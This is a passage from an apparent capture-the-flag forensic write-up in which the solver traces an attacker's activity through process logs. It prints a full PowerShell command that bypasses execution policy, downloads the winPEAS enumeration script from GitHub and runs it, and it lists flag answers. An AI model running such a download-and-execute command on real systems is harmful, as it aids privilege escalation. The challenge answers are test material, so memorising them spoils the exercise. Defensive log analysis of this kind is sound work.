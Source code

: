 > Flag: `https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1`

## L0udBit_17
> What was the full process.command_line to download and run winPEAS.ps1 script?

From previous step, we can just copy the contents of the `process.command_line` cell by expending the content and clicking on `Copy value`:

![](img/L0udBit/20250129113838.png)

> Flag: `powershell  -Command "& {Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force; [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1' -OutFile 'C:\Users\Public\winPEAS.ps1'; powershell -ExecutionPolicy Bypass -File 'C:\Users\Public\winPEAS.ps1' > 'C:\Users\Public\peasout.txt'}"`

## L0udBit_18
> What was the process.parent.name of the powershell command from the previous question?

Searching for the `process.parent.name` in the log details, reveals the answer.

> Flag: `cmd.exe`

## L0udBit_19
> What was the process.parent.name of the cmd.exe from the previous question?
